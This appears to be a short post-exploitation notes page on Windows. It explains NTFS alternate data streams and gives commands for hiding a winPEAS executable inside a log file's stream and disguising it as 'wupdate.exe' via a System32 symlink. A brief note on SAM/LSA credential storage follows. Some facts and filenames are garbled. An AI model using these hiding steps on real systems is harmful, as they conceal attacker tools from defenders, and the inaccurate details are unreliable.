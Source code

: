 ```yaml
---
title: 'Windows Stuff'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/post-exploitation.jpg'
---
```


# Alternate Data Streams (ADS)

## Information

- ADS is and NTFS (Net Tech File System) file attribute, designed to provice compatibility with the MacOS HFS (Hierarchical File System).

- File created on an NTFS formatted drive will have:

  - **Data Stream:** Contains data of the file.
  - **Resource stream:** Contains the metadata of the file.

- Attackers can use ADS to hide code in the file attribute resource stream (metadata).

```bash
# command prompt
# EXAMPLE:
notepad text.txt

# Creating hidden data in Resource stream
test.txt:secret.txt

# Convert winpeas into a Resource stream
type winpeas_filename.exe > windows_log.txt:winpeas.exe

start winpeas_filename.txt:winpeas.exe
# [!] There is no program associated to perform the requested action.

# Creating sym link to resolve ERROR, Each time we execute wupdate will execute winpeas
cd C:\Windows\System32
mklink wupdate.exe C:\Temp\winpeas_filename.txt:winpeas.exe
wupdate\n
```

# Alternate Data Streams (ADS)

## Information

- The windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.

- The auth and verification of user creds is facilitated by the Local Security Authority(LSA).
